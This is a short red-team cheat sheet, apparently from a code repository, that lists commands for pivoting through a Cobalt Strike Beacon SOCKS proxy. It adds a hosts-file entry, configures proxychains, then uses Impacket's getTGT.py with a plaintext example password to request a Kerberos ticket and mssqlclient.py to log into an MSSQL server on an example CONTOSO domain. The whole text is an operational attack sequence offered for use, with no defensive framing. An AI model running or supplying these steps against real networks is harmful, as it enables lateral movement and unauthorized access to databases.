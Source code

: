 
Add manual DNS entries
```powershell
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.20 lon-db-1'
```

Start a socks proxy within Beacon
```powershell
socks 1080 socks5
```

Edit `/etc/proxychains.conf` accordingly
```powershell
socks5 [teamserver_ip] 1080
```

Use proxychains to requests tickets and perform attacks
```bash
proxychains getTGT.py 'CONTOSO.COM/rsteel:Passw0rd!' -dc-ip 10.10.120.1

proxychains mssqlclient.py contoso.com/rsteel@lon-db-1 -windows-auth -no-pass -k -dc-ip 10.10.120.1
```
